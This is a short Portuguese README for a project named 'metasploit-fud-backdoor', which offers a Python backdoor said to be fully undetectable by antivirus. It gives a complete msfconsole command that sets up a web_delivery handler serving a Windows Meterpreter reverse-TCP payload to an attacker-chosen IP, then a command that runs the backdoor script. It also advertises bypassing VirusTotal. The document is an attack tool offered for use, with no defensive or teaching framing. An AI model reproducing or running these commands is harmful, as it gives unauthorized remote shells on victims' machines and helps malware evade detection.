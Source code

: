 # metasploit-fud-backdoor
backdoor em python pelo metasploit 100% fud

### versão
versão do python: 3

### passo 1
sudo msfconsole -q -x "use multi/script/web_delivery; set lhost SEU_IP; set lport PORTA_TCP; set srvport 8080; set uripath index.php; set target 2; set payload windows/meterpreter/reverse_tcp; exploit -j; clear; clear; clear"

### passo 2
python fud.py SEU_IP 8080

### informação
bypassing virus total

### screenshot
![](https://image.prntscr.com/image/FzbeC9FaQ3yfsJeSTgNoEg.png)
